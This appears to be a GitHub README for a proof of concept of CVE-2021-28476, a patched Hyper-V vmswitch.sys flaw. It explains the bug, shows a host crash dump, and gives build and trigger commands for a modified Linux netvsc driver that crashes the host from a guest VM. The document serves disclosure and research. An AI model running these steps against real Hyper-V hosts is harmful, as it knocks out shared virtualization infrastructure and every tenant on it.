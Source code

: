 # CVE-2021-28476: a guest-to-host "Microsoft Hyper-V Remote Code Execution Vulnerability" in vmswitch.sys.

This is a proof of concept for [CVE-2021-28476](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-28476) ("Hyper-V Remote Code Execution Vulnerability"), an arbitrary memory read in `vmswitch.sys` (*network virtualization service provider*) patched by Microsoft in May 2021.

![rel04vsrel05](pics/rel04vsrel05.jpg)

The vulnerability was found by [@australeo](https://twitter.com/australeo), [@ergot86](https://twitter.com/ergot86), [@peleghd](https://twitter.com/peleghd) and [@OphirHarpaz](https://twitter.com/OphirHarpaz). It is triggerable by a guest virtual machine sending a malicious RNDIS packet over [VMBus](https://docs.microsoft.com/en-us/virtualization/hyper-v-on-windows/reference/hyper-v-architecture) (which is a *channel-based communication mechanism used for inter-partition communication*).

![trigger](pics/trigger.gif)

This is what the **host** system crash looks like in a debugger:

```text
*** Fatal System Error: 0x0000007e
                       (0xFFFFFFFFC0000005,0xFFFFF80AD4A41A63,0xFFFFB70DD7EB7028,0xFFFFB70DD7EB6860)

Break instruction exception - code 80000003 (first chance)

A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.

nt!DbgBreakPointWithStatus:
fffff801`31412c50 cc              int     3

kd> .cxr 0xffffb70dd7eb6860
rax=fffff80ad4bc7214 rbx=fffff80ad4bf62a0 rcx=0000000000000000
rdx=00000000047a2807 rsi=ffffb70dd7eb7420 rdi=ffffa58caa318f00
rip=fffff80ad4a41a63 rsp=ffffb70dd7eb7260 rbp=ffffa58caa318fe0
 r8=0000000000000000  r9=000000000000013b r10=deadbeefbaadc0be
r11=ffffb70dd7eb7230 r12=fffff80ad4bc73d0 r13=00000000c0000001
r14=00000000000021f0 r15=fffff80ad4bc7360
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00050246
vmswitch!VmsIfrInfoParams_OID_SWITCH_NIC_REQUEST+0xfb:
fffff80a`d4a41a63 418b4a20        mov     ecx,dword ptr [r10+20h] ds:002b:deadbeef`baadc0de=????????

kd> kp
 # Child-SP          RetAddr               Call Site
00 ffffb70d`d7eb7260 fffff80a`d4a3ee41     vmswitch!VmsIfrInfoParams_OID_SWITCH_NIC_REQUEST+0xfb
01 ffffb70d`d7eb7300 fffff80a`d4a3fc76     vmswitch!VmsIfrInfoParamsNdisOidRequestBuffer+0x14d
02 ffffb70d`d7eb7380 fffff80a`d4a3c779     vmswitch!RndisDevHostHandleSetMessage+0x196
03 ffffb70d`d7eb7420 fffff801`3136f423     vmswitch!RndisDevHostControlMessageWorkerRoutine+0x199
04 ffffb70d`d7eb74c0 fffff801`3123a975     nt!IopProcessWorkItem+0x93
05 ffffb70d`d7eb7530 fffff801`3132ce85     nt!ExpWorkerThread+0x105
06 ffffb70d`d7eb75d0 fffff801`31412408     nt!PspSystemThreadStartup+0x55
07 ffffb70d`d7eb7620 00000000`00000000     nt!KiStartSystemThread+0x28
```

The bug itself happens in `VmsIfrInfoParams_OID_SWITCH_NIC_REQUEST` which is a function that can be called with attacker-controlled data (which it shouldn't) and dereference twice a pointer (`boom->_win` below) that a malicious guest virtual machine can provide.

![boom](pics/boom.png)

If this is interesting to you, [@peleghd](https://twitter.com/peleghd) and [@OphirHarpaz](https://twitter.com/OphirHarpaz) will be discussing this in details as well as the discovery process in a [BlackHat USA 2021](https://www.blackhat.com/us-21/) presentation entitled [hAFL1: Our Journey of Fuzzing Hyper-V and Discovering a 0-Day](https://www.blackhat.com/us-21/briefings/schedule/index.html#hafl-our-journey-of-fuzzing-hyper-v-and-discovering-a--day-23498).

## Running the PoC

The easiest way to run the PoC is to create a Linux virtual machine running the latest [Ubuntu Focal](https://releases.ubuntu.com/focal/).

Once this is done, clone the matching kernel sources:

```bash
$ uname -a
Linux tourdeforce 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ git clone git://kernel.ubuntu.com/ubuntu/ubuntu-focal.git
$ cd ubuntu-focal
$ git checkout Ubuntu-5.4.0-73.82
$ git branch fbl_vswitch
$ git checkout fbl_vswitch
```

Replace `~/ubuntu-focal/drivers/net/hyperv/netvsc_drv.c` by [src/netvsc_drv.c](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/netvsc_drv.c), `~/ubuntu-focal/drivers/net/hyperv/rndis_filter.c` by [src/rndis_filter.c](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/rndis_filter.c) and `~/ubuntu-focal/drivers/net/hyperv/hyperv_net.h` by [src/hyperv_net.h](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/hyperv_net.h) (full diff available in [cve-2021-28476.diff](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/cve-2021-28476.diff)):

```bash
$ sudo apt-get install git build-essential kernel-package fakeroot libncurses5-dev libssl-dev ccache bison flex libelf-dev dwarves
$ cp /boot/config-5.4.0-73-generic .config
$ make oldconfig
$ make modules
$ make M=drivers/net/hyperv
```

Finally, trigger the issue by loading the module and change the ethernet address of the network interface (this action triggers the specific code-path we added in [rndis_filter.c](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/rndis_filter.c) / `netvsc_set_mac_addr`):

```bash
$ sudo rmmod hv_netvsc && insmod drivers/net/hyperv/hv_netvsc.ko
$ sudo ifconfig eth0 hw ether 00:11:22:33:44
```

# Authors

* Axel '[@0vercl0k](https://twitter.com/0vercl0k)' Souchet
